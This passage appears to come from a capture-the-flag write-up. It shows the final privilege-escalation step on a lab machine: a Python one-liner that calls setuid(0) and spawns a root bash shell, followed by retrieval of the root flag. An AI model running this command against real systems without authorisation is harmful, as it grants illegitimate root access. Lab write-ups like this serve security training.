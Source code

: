 Let's do it. Type:

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This Python command will:

1. Use `os.setuid(0)` to change the process's user ID to `0` (the **root** user).
2. Spawn a root shell (`/bin/bash`).

![PE](./Screenshots/cappe8.png)

We are `root`.

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/caprootflag.png)

### Paste the flags
